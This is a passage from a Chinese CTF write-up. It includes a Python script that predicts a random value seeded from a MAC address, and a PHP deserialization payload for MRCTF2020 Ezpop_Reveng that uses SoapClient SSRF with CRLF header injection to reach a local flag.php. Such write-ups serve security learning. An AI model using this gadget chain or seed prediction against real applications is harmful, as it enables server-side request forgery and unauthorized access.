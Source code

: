 ```python
import uuid
import random

mac = "9a:99:4b:9c:7a:0a"
temp = mac.split(':')
temp = [int(i,16) for i in temp]
temp = [bin(i).replace('0b','').zfill(8) for i in temp]
temp = ''.join(temp)
mac = int(temp,2)
random.seed(mac)
randStr = str(random.random()*100)
print(randStr) #结果为 55.1222587560636
```

## 0x03 [MRCTF2020]Ezpop_Reveng

这个题目能扫到源码。

![image-20220104151755783](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220104151755783.png)

![](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220104151755783.png)

toString

![image-20220104151829871](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220104151829871.png)

然后直接触发soap的ssrf方法到这里链子就结束了。下面就是这个题的难点了。

- soap不支持自定义headers----》 crlf
- private属性 `\0和\0\0 s和S` 需要自己对于payload进行修改。

我们都知道私有变量类名的前后都有%00，但是某些特定版本的情况下，这样也会出错

- 这个时候我们需要将s改为S，并添加`\00`

所以这里我使用了y1ng师傅的脚本

```php
<?php
//www.gem-love.com
class Typecho_Db_Query
{
    private $_adapter;
    private $_sqlPreBuild;

    public function __construct()
    {
        $target = "http://127.0.0.1/flag.php";
        $headers = array(
            'X-Forwarded-For:127.0.0.1',
            "Cookie: PHPSESSID=s8fo8ma30gbttqvgdbb48k6rm4"
        );
        $this->_adapter = new SoapClient(null, array('uri' => 'aaab', 'location' => $target, 'user_agent' => 'Y1ng^^' . join('^^', $headers)));
        $this->_sqlPreBuild = ['action' => "SELECT"];
    }
}

class HelloWorld_DB
{
    private $coincidence;
    public function __construct()
    {
        $this->coincidence = array("hello" => new Typecho_Db_Query());
    }
}
```